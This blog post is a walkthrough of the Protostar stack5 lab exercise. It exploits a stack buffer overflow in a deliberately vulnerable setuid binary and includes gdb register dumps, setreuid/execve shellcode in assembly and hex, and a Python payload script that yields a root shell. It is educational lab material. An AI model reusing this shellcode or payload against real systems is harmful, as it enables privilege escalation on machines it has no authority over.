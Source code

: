 ```yaml
---
layout: post
title:  "Protostar stack5 challenge"
date:   2018-04-14 23:37:36 +0530
categories: exploit-exercises protostar stack5
---
```



Buffer overflow attack [Stack5][stack-5] but here we are not given a win free function to direct control to
So we will have to use shell code which should be called upon execution of the program.
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
  char buffer[64];
  gets(buffer);
}
{% endhighlight %}
As usual `gets` is the vulnerable function here.
As seen from stack4 exercise first we need to find where RET return address is located in main.
{% highlight nasm %}
$ gdb /opt/protostar/bin/stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
{% endhighlight %}
`$ebp` is base pointer. `$esp` is stack pointer which points to top of stack
When a new function is called, the calling function `$ebp` is pushed onto the stack
{% highlight nasm %}0x080483c4 <main+0>:    push   ebp{% endhighlight %}
Then new $ebp points to current `$esp`
{% highlight nasm %}0x080483c5 <main+1>:    mov    ebp,esp{% endhighlight %}
Then space for local variables is created.
Also `$eip`(not seen here) points to current instruction pointer, ie the current
instruction being executed.
Now the RET address(where control should return after exiting main commonly
some C library) is stored just after where `$ebp` is stored.
We add few break points and
{% highlight nasm %}
(gdb) b *0x080483c4
Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
(gdb) b *0x080483d4
Breakpoint 2 at 0x80483d4: file stack5/stack5.c, line 10.
(gdb) b *0x080483d9
Breakpoint 3 at 0x80483d9: file stack5/stack5.c, line 11.
{% endhighlight %}
Then run
{% highlight nasm %}
(gdb) r
Starting program: /opt/protostar/bin/stack5
Breakpoint 1, main (argc=1, argv=0xbffffd74) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info r
eax            0xbffffd74       -1073742476
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffccc       0xbffffccc
ebp            0xbffffd48       0xbffffd48
esi            0x0      0
edi            0x0      0
eip            0x80483c4        0x80483c4 <main>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
Here we see $ebp has 0xbffffd78. This is $ebp value of caller
 which will be now pushed to stack. (0x080483c4 <main+0>:    push   ebp)
{% highlight nasm %}
(gdb) c
Continuing.
Breakpoint 2, 0x080483d4 in main (argc=1, argv=0xbffffd74) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) infor
Undefined command: "infor".  Try "help".
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc70       0xbffffc70
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x80483d4        0x80483d4 <main+16>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
Here we see $ebp is 0xbffffcc8. This was due to `(mov    ebp,esp)`
and is basically where callers $ebp is stored.
This is break just before calling gets(buffer).
In intel the address of buffer is saved to top of stack $esp just before calling func.
So $esp points to buffer location ie $esp contain the location of buffer
{% highlight nasm %}
(gdb) x/x $esp
0xbffffc70:     0xbffffc80
{% endhighlight %}
That means buffer is located as 0xbffffc80.
Since gets would start input from this address, we attempt to over this buffer just
so that we RET is overwritten with our shellcode location. And when control returns from
main our shellcode is executed.
Start of RET is $ebp+4
So we need to overwrite dummy chars upto RET ie start-RET - start-buffer
ie 0xbffffcc8 + 4 - 0xbffffc80 = 76(base 10)
Ok continue
In a separate terminal and rerun with this as input
{% highlight nasm %}
$  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' > temp.txt
(gdb) r < /home/user/temp.txt
Starting program: /opt/protostar/bin/stack5 < /home/user/temp.txt
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0xbffffc80       -1073742720
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcd0       0xbffffcd0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
We see $eip which is the return pointer is overwritten as 0xdeadbeef and we get SIGSEGV.
So we have 76 chars before RET where we can store our shell code or we can also store it after RET.
We will try to store it before RET.
First we begin by creating shell-code which would spawn a shell.
I used this link to get shell-code. [shellcode5.html][shellcode5]
{% highlight nasm %}
;shellex.asm
[SECTION wtext write]
global _start
;shellex.asm
section wtext write
global _start
_start:
    xor eax, eax
    mov al, 70                    ; setreuid is syscall 70
    xor ebx, ebx
    xor ecx, ecx
    int 0x80
    jmp short    mycall           ; Immediately jump to the call instruction
    shellcode:
        pop        ecx                ; Store the address of "/bin/sh" in ESI
        xor        eax, eax           ; Zero out EAX
        mov byte   [ecx + 7], al      ; Write the null byte at the end of the string
        mov dword  [ecx + 8],  esi    ; [ecx+8], i.e. the memory immediately below the string
                                      ;   "/bin/sh", will contain the array pointed to by the
                                      ;   second argument of execve(2); therefore we store in
                                      ;   [ecx+8] the address of the string...
        mov dword  [ecx + 12], eax    ; ...and in [ecx+12] the NULL pointer (EAX is 0)
        mov        al,  0xb           ; Store the number of the syscall (11) in EAX
        lea        ebx, [ecx]         ; Copy the address of the string in EBX
        lea        edx, [ecx + 12]    ; Third argument to execve(2) (NULL pointer)
        lea        ecx, [ecx + 8]     ; Second argument to execve(2)
        int        0x80               ; Execute the system call
    mycall:
        call       shellcode          ; Push the address of "/bin/sh" onto the stack
        db         "/bin/sh"
{% endhighlight %}
Most of the shellcode is same as given in link but i had to add [SECTION wtext write]
atop the code. Something to do with make stack section writable as mentioned here.
[Discussion in stackoverflow][so-discussion]
{%highlight shell%}
VirtualBox:~$ nasm -felf get_shell.asm
VirtualBox:~$ ld -melf_i386 -o get_shell get_shell.o
VirtualBox:~$ ./get_shell
{%endhighlight%}
So we get a shell now.
We need to get shell code as hex. Using objdump and regex dump from my SE course
{% highlight shell %}
madhurrawat@madhurrawrat-VirtualBox:~/Desktop/shellcode$ objdump -D ./get_shell.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
{% endhighlight %}
So we prepare a python script to prepare payload.
{% highlight python %}
#!/usr/bin/env python
offset = 72
shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31 \
\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d \
\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
nopsled = "\x90" * (offset - len(shellcode))
ret = "\xb0\xfc\xff\xbf"
payload = nopsled + shellcode + "JJJJ" + ret
print payload
{% endhighlight %}
So basically we are overwriting $ebp with "JJJJ" ie frame pointer.
nopsled + shellcode should total 72.
BUT wait why is ret here as 0xbffff790. Shouldn't it be start of our
buffer ie 0xbffffc80. Well i tried with RET as 0xbffffc80 but got SEG
Maybe because of this reason mentioned in [link][core-need]
`| In gdb stack addresses aren't the same as in a live run !!!    |`
So better we analyze core file:
So we login as root in protostar
{% highlight shell %}
root@protostar:/# echo 2 > /proc/sys/fs/suid_dumpable
root@protostar:/# cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
root@protostar:/# ulimit -c unlimited
root@protostar:/# cd /opt/protostar/bin
root@protostar:/opt/protostar/bin#  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' | ./stack5
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# ls /tmp
core.11.stack5.1817
root@protostar:/opt/protostar/bin# gdb -q -c /tmp/core.11.stack5.1817
{% endhighlight %}
{% highlight nasm %}
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) info r
eax            0xbffffcb0       -1073742672
ecx            0xbffffcb0       -1073742672
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffd00       0xbffffd00
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
Ok. so we overwrote RET properly coz $eip is 0xdeadbeef
Further we examine are where we wrote A 76 times
{% highlight nasm %}
(gdb) x/30x $esp-96
0xbffffca0:     0xbffffcb0      0xb7ec6165      0xbffffcb8      0xb7eada75
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffce0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcf0:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbffffd00:     0x00000000      0xbffffda4      0xbffffdac      0xb7fe1848
0xbffffd10:     0xbffffd60      0xffffffff
{% endhighlight %}
So we see in coredumps buffer is starting from 0xbffffcb0.
Since we will be starting from 0xbffffcb0 our RET should now point to it, ie
beginning of our shell code.
{% highlight shell %}
$ python pwn5.py > payload5
$  (cat payload5; cat) | /opt/protostar/bin/stack5
id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
So we successfully spawned a shell as root.
We could spawn a shell as root coz this is a setuid program.
[stack-5]: https://exploit-exercises.com/protostar/stack5/
[shellcode5]: http://www.kernel-panic.it/security/shellcode/shellcode5.html
[so-discussion]: https://chat.stackoverflow.com/rooms/91636/discussion-between-jester-and-czifro
[core-need]: https://github.com/flankerhqd/protostar-solutions/blob/master/Stack%205/stack5.txt
